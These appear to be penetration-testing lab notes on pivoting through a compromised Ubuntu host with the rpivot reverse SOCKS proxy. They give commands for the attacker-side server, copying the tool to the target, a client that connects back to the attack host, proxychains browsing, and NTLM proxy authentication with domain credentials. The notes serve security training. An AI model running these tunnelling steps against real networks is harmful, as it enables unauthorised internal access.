[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.![[77.webp]]
We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

#### Cloning rpivot


```shell-session
git clone https://github.com/klsecservices/rpivot.git
```

#### Installing Python2.7

```shell-session
sudo apt-get install python2.7
```

#### Alternative Installation of Python2.7


```shell-session
 curl https://pyenv.run | bash
 echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
 echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
 echo 'eval "$(pyenv init -)"' >> ~/.bashrc
$ source ~/.bashrc
$ pyenv install 2.7
$ pyenv shell 2.7
```

We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

#### Running server.py from the Attack Host

```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

#### Transferring rpivot to the Target

```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

#### Running client.py from Pivot Target

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

#### Confirming Connection is Established

```shell-session
New connection from host 10.129.202.64, source port 35226
```

# profit
#### Browsing to the Target Webserver using Proxychains

Web Server Pivoting with Rpivot

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

# NTLM AUTHENTICATION TO RPIVOT
Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

Web Server Pivoting with Rpivot

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
